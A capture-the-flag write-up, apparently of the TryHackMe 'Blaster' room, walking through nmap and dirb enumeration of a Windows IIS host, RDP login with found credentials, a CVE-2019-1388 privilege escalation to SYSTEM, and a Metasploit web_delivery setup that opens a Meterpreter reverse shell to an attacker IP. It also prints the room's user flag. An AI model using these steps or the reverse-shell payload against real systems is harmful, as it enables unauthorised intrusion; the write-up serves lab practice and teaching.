







# Blaster

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn  10.10.42.82 -oN allPort

PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127
```


```bash
nmap -sC -sV -p80,3389 -Pn 10.10.42.82 -oN targeted


PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-09-15T21:38:10+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-09-14T21:34:41
|_Not valid after:  2025-03-16T21:34:41
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-09-15T21:38:06+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



### HTTP 

```bash
whatweb http://10.10.42.82  
```


```bash
dirb http://10.10.42.82/
dirb http://10.10.42.82/ -X .txt,.php
dirb http://10.10.42.82/ /usr/share/dirb/wordlists/big.txt 
```


```bash
http://10.10.42.82/retro/
```


| User | Password|
|---|---|
| wade | parzival |

Conexión por RDP

```bash
xfreerdp /u:wade /p:parzival /v:10.10.42.82 /dynamic-resolution

xfreerdp /u:wade /p:parzival /v:10.10.42.82 /d:xya.local /cert-ignore /dynamic-resolution
```



Flag
```bash title="user.txt"
THM{HACK_PLAYER_ONE}
```


## CVE-2019-1388

```bash
CVE-2019-1388 hhupd 
```












```shell
C:\windows\System32> whoami
nt authority\system
```


```shell
type c:\Users\Administrator\Desktop
```


```bash
msfconsole
use exploit/multi/script/web_delivery
```



```bash
set TARGET 2
set LHOSTS 10.9.244.36
set LPORT 80
set PAYLOAD windows/meterpreter/reverse_http

run -j
```


